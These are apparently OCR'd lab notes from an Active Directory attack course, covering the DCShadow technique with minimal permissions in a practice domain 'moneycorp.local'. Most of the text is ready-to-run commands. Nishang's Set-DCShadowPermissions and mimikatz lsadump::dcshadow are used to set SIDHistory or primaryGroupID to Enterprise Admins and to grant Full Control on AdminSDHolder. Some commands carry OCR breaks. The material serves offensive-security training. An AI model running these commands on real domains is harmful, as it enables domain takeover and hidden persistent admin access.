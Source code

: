 • DCShadow can be used with minimal permissions by modifying ACLs of -

– The domain object.
	• DS-Install-Replica (Add/Remove Replica in Domain) 
	• DS-Replication-Manage-Topology (Manage Replication Topology) 
	• DS-Replication-Synchronize (Replication Synchornization)
	
– The Sites object (and its children) in the Configuration container. 
	• CreateChild and DeleteChild 
	
– The object of the computer which is registered as a DC. 
	• WriteProperty (Not Write) 

– The target object. 
	• WriteProperty (Not Write) 

• We can use `Set-DCShadowPermissions` from Nishang for setting the permissions.

## DCShadow - Minimal Permissions

• We can use `Set-DCShadowPermissions` from Nishang for setting the permissions.

• For example, to use DCShadow as user student1 to modify root1user object from machine `mcorp-student1`: 
```powershell 
Set-DCShadowPermissions -FakeDC mcorp-student1 - SAMAccountName root1user -Username student1 -Verbose 
```

• Now, the second mimkatz instance (which runs as DA) is not required.

#### Set SIDHistory of a user account to Enterprise Admins or Domain Admins group: 
```powershell
lsadump::dcshadow /object:student1 /attribute:SIDHistory /value:S-1-5- 21-280534878-1496970234-700767426-519 

# To use above without DA: 
Set-DCShadowPermissions -FakeDC mcorp-student1 -SAMAccountName root1user -Username student1 -Verbose
```

#### Set primaryGroupID of a user account to Enterprise Admins or Domain Admins group: 
```powershell
lsadump::dcshadow /object:student1 /attribute:primaryGroupID /value:519
```

#### Modify ntSecurityDescriptor for AdminSDHolder to add Full Control for a user 
```powershell
(New-Object System.DirectoryServices.DirectoryEntry("LDAP://CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local")).psbase.Objec tSecurity.sddl
```

#### Append a Full Control ACE from above for SY/BA/DA with our user's SID at the end. 
```powershell
lsadump::dcshadow /object:CN=AdminSDHolder,CN=System,DC=moneycorp,DC=local /attribute:ntSecurityDescriptor /value:<modified ACL>
```

